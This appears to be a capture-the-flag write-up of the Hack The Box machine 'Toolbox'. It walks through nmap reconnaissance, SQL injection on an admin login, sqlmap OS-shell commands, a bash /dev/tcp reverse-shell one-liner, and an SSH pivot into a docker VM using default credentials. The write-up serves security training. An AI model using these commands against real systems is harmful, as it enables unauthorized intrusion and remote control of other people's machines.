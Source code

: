 ```yaml
---
title: Toolbox
date: 2023-01-04 13:30:03 -5000
categories: [HTB,Easy,Windows]
tags: [Web,Network,Misconfiguration,Default Credentials,Weak Authentication,SQL Injection,Protocols]
image:
  path: /Assets/Pictures/Toolbox/Toolbox.webp
  lqip: data:image/webp
---
```


# 🔎 Intell/Recon

## Intellingence Gathering 🕵🏾

Here we kick off our **nmap** scan in order to see which technology is being run on the server

Here is the results of our different scans

First we look for open ports

`nmap -p- -vv --min-rate 5000 --reason -oN ./Nmap/initial.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image (4).png" alt="image proof"><figcaption><p><em>Open ports</em></p></figcaption></figure>

We can now check the service Version in order to gatherr more information

`nmap -sV -p- -vv --min-rate 5000 -oN ./services-scripts.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image (1).png" alt="image proof"><figcaption><p><em>Services Enumeration</em></p></figcaption></figure>

## Enumeration

### FTP

Let's start with the low hanging fruit as _@thecybermentor_ always thought us. For this system here. It make sense to start with FTP on port 21. \
We do not have credentials so we will get it with the anonymous login

<figure><img src="/Assets/Pictures/Toolbox/image (8).png" alt="image proof"><figcaption><p><em>FTP session</em></p></figcaption></figure>

This file is too heavy, for me to download. I will keep that in mind that the system has a docker-toolbox.exe file. Which suggest that the system must have docker installed in it. There is sadly nothing more to see here

### HTTPS

Now let's visit the webpage at `https://10.10.10.236/`

<figure><img src="/Assets/Pictures/Toolbox/image (12).png" alt="image proof"><figcaption><p><em>the Website</em></p></figcaption></figure>

As we can see it's more of a static webpage. I checked the source code and ran some directory busting but nothing really juicy is coming out. Then I needed to check for the presence of Virtual Hosts (VHOST) on the target. The are two ways to do it. First, I check with the scripts of nmap cause it leaks sometimes. I did not need to run any directory busting to find the vhost it was there while getting the nmap script

`nmap -sVC -p443 -vv -T5 -oN services-HTTPS.log 10.10.10.236`

<figure><img src="/Assets/Pictures/Toolbox/image.png" alt="image proof"><figcaption><p><em>Nmap service Version &#x26; Scripts</em></p></figcaption></figure>

We found our VHOST which is _**admin.megalogistic.com**_** ** and we also found a username which is _'admin'_

# 👣 Foothold

We have the admin subdomain and we know the username to access the admin panel.

for that let's add the new subdomain to our hosts file with the following:&#x20;

`echo "10.10.10.236    admin.megalogistics.com" | sudo tee -a /etc/hosts`

<figure><img src="/Assets/Pictures/Toolbox/image (10).png" alt="image proof"><figcaption><p><em>login panel of admin.megalogistic.com</em></p></figcaption></figure>

I tried the usual admin:admin but no success. Since it's login form next thing would be to fire burp and see what's going on. But before that, let's try some SQL injection payloads to see what's going on here. I tried with the login = admin' or 1=1. There was an interesting error message suggesting that we have an sqlinjection vulnerability here.

Here is the error message, I got&#x20;

<figure><img src="/Assets/Pictures/Toolbox/image (13).png" alt="image proof"><figcaption><p><em>Error from login Panel</em></p></figcaption></figure>

From the error we can literally see the SQL query that helps the user to log in. So from Burpsuite, we will get the POST request and use SQLMap in order to exploit this vulnerability

# 📚 SQLMap

The command was simple. I had to copy the POST request from Burpsuite into a file and then use it to test and see what we can get. I tried first to run a system command in order to see that it's vulnerable\
`sqlmap -r request.txt --batch --force-ssl  --os-cmd whoami`` `_``_&#x20;

<figure><img src="/Assets/Pictures/Toolbox/image (6).png" alt="image proof"><figcaption><p><em>SQLMap results</em></p></figcaption></figure>

Since we are able to see the user on the system, we can get a reverse shell as well.

With the following:

`sqlmap -r request.txt --batch --force-ssl   --os-shell`

<figure><img src="/Assets/Pictures/Toolbox/image (7).png" alt="image proof"><figcaption><p><em>SQLMap os-shell</em></p></figcaption></figure>

The next thing that needs to be done is to get a stable reverse-shell since this one can not be used for enumeration. In order to do so we will need to have our listener set with _nc -nvlp 9090_ on our terminal and the following to get our rever-shell.&#x20;

`bash -c "bash -i >& /dev/tcp/[YOUR-IP]/9090 0>&1"`

<figure><img src="/Assets/Pictures/Toolbox/image (2).png" alt="image proof"><figcaption></figcaption></figure>

# 🏴☠ User Flag

Since the user in the system is _postgres_ we need to navigate to that directory in order to get the flag

<figure><img src="/Assets/Pictures/Toolbox/image (11).png" alt="image proof"><figcaption><p><em>User flag</em></p></figcaption></figure>

After getting the, I spent time enumerating the box. Found the real I.P and the hostname. Which is not similar to the one we are going after. We are suppose to be attacking a windows machine but seems like we need to pivot to the target

<figure><img src="/Assets/Pictures/Toolbox/image(14).png" alt="image proof"><figcaption><p><em>System Enumeration</em></p></figcaption></figure>

After the enumeration and looking at the info i gathered. I remember I have found a docker file in the FTP server. After checking on the documentation, I can ssh to the docker

# 🏁 Privesc

Now that we know we can ssh to the docker container. I could not find any credentials on the system. A little search lead me to this [Github Page](https://github.com/boot2docker/boot2docker#ssh-into-vm). In order to understand more on what is happening and see what are the default credentials. __&#x20;

using ssh, I was able to get the docker instance.

_`ssh docker@172.17.0.1`_

_We used 172.17.0.1 since the other box where we got our foothold had an address of 172.17.0.2 which in turn suggest that the docker machine should be at 172.17.0.1_

<figure><img src="/Assets/Pictures/Toolbox/image (5).png" alt="image proof"><figcaption><p><em>Boom ! docker admin user</em></p></figcaption></figure>

Now that we are in the container, we can run some commands to see how to privesc. In order to do that we will need to run some OS commands in order to enumerate the system. turns out,&#x20;

_`sudo -l`_ was enough for us, and running _`sudo su`_ gives the root shell

<figure><img src="/Assets/Pictures/Toolbox/image (9).png" alt="image proof"><figcaption><p><em>Windows File System</em></p></figcaption></figure>

Keep in mind it's a windows machine so the path should be same as the traditional. Which is

_C:\Users\Administrator\\_ the flag should be sitting somewhere in the admin directory.\
\
Thanks for reading. This is my first write-up. Hope this was helpful.

<script data-name="BMC-Widget" data-cfasync="false" src="https://cdnjs.buymeacoffee.com/1.0.0/widget.prod.min.js" data-id="1ntell0" data-description="Support me on Buy me a coffee!" data-message="" data-color="#40DCA5" data-position="Right" data-x_margin="18" data-y_margin="18"></script>

### Happy Hacking !